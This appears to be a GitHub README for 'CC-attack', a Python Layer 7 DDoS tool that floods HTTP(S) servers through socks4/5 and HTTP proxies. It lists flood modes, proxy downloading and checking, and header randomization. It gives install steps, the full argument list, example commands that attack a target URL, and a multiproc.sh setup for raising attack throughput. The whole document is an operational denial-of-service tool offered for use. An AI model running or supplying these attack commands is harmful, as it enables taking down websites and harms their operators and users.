 .__ .__     __.                    
|  \|  \ _ (__  ___ PROXY
|__/|__/(_).__)   
           /////    /////    /////////////
      CCCCC/   CCCCC/   | CC-attack |/
     CC/      CC/       |-----------|/ 
     CC/      CC/       |  Layer 7  |/ 
     CC/////  CC/////   | ddos tool |/ 
      CCCCC/   CCCCC/   |___________|/

# DDoS-proxy ![](https://img.shields.io) ![](https://img.shields.io/badge/license-GPLv2-blue.svg)
 A script for using socks4/5 or http proxies to attack http(s) server.

 News:
- [x] Added Support of HTTP proxies
- [x] Added More proxies api to download 

 Info:
- [x] Using Python3
- [x] Added more human-like options
- [x] Http Get/Head/Post/Slow Flood
- [x] Random Http Header/Data
- [x] Socks4/5 Proxies Downloader
- [x] Socks4/5 Proxies Checker
- [x] Customize Cookies
- [x] Customize Post Data 
- [x] Support HTTPS
- [x] Support Socks4/5

## Showcase
Using multiproc.sh with socks4 on a vps
![](https://i.imgur.com/KLJIZs8.png)

## Install

    pip3 install requests pysocks
    git clone https://github.com/Leeon123/CC-attack.git
    cd CC-attack

## Usage

    python3 cc.py <arguments>

```
===============  CC-attack help list  ===============
   -h/help   | showing this message
   -url      | set target url
   -m/mode   | set program mode
   -data     | set post data path (only works on post mode)
             | (Example: -data data.json)
   -cookies  | set cookies (Example: 'id:xxx;ua:xxx')
   -v        | set proxy type (4/5/http, default:5)
   -t        | set threads number (default:800)
   -f        | set proxies file (default:proxy.txt)
   -b        | enable/disable brute mode
             | Enable=1 Disable=0  (default:0)
   -s        | set attack time(default:60)
   -down     | download proxies
   -check    | check proxies
=====================================================
```
### Some example of the usage
Download socks5 proxies as proxy.txt:
```
python3 cc.py -down -f proxy.txt -v 5
```
Attack a target with custom proxies list(socks4.txt) for 30 seconds :
```
python3 cc.py -url http://target.com -f socks4.txt -v 4 -s 30
```

## Usage of multiproc.sh
```
This script is using for increasing the performance of cc.py.
Due to the suck performance of python since it has a GIL lock,
And I am lazy to make a multiprocess version.
There is a option for linux user to increase their performance of cc.py

This script basicly just run cc.py multiple times to make it "multi-processing"

First, put this script and cc.py in the same folder.

Then prepare the proxies list by yourself or just run "python3 cc.py -down -v 4" (-v socks version)

After that, change the number of process.

At last, change atk_cmd to your command and run the script by "bash multiproc.sh"
```
Example setup of multiproc.sh (-v socks version) (-s attack time)
```
atk_cmd="python3 cc.py -url http://target.com -v 4 -s 60"

#number of process that you want
process=10

```
